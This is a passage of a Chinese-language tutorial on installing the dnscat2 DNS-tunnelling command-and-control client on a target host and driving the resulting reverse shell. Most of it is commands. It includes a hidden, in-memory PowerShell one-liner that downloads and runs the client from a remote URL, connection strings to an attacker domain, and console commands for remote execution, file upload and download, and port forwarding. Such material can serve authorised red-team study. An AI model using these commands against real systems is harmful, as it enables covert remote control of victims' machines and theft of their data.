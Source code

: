 
3.目标主机安装客户端
```bash
# dnscat2 客户端是C写的，所以先编译。win上可使用vs编译；Linux中直接运行`make install`
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make
# 这里使用的是直接编译好的win系统上的客户端：https://downloads.skullsecurity.org/dnscat2

# 服务端建好之后，在客户端运行测试能否与服务端通信
dnscat2-v0.07-client-win32.exe --ping vpn.360bobao.xyz
# 在客户端连接服务端
dnscat2-v0.07-client-win32.exe --dns domain=vpn.360bobao.xyz --secret pass123456
# 如果成功，会显示"Session established!" 

# 如果服务端使用的是直连模式，可以直接填写服务端ip地址(不通过DNS服务提供商)，向dnscat2服务端所在的IP弟子和请求DNS解析，命令如下
dnscat --dns server <dnscat2_server_IP>,port=53,type=TXT --secret=pass123456

# 推荐使用Powershell版本的dnscat2-powershell(目标win机器需要支持powershell2.0以上版本)：https://github.com/lukebaggett/dnscat2-powershell
#下载脚本到本地执行：
Import-Module .dnscat2.ps1
#也可在线加载脚本：
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1");
start-Dnscat2 -Domain vpn.360bobao.xyz -DNSServer  ***.***.***.***
# 也可以用以下命令，使用IEX加载脚本的方式，在内存中打开dnscat2客户端
powershell.exe -nop -w hidden -c {IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1");start-Dnscat2 -Domain vpn.360bobao.xyz -DNSServer  ***.***.***.***}

# 执行命令，创建控制台，然后就可以执行powershell命令和脚本
exec psh

```



4.反弹shell
```bash
# 交互shell， 和Metasploit类似
# 在客户端运行dnscat2.ps1脚本，在服务端就能看到客户端上线的提示



# 常用命令：
windows    # 查看当前的控制进程(每个连接都是独立的)
sessions   # 同同上
session --I 1    # 进入某个通道
window  -i 1
exec notepad.exe    # 远程打开指定程序
download    # 下载文件(慢，先把所有数据先写入缓存，最后写入硬盘) 不适合大文件
upload      # 上传文件()
clear    # 清屏
delay    # 修改远程响应延时
shell    # 得到一个反弹shell
suspend    # 返回上一层，相当于快捷键"ctrl+z"
listen    # 类似SSH隧道的—L参数(本地转发)，如：listen 0.0.0.0:53 192.168.1.1:3389
ping    # 确认主机在线，如果返回"pong"，则在线
shutdown    # 切断当前会话
quit    # 推出dnscat2控制台
kill <id> # 切断通道
set     # 设置值，例如：security=open

```
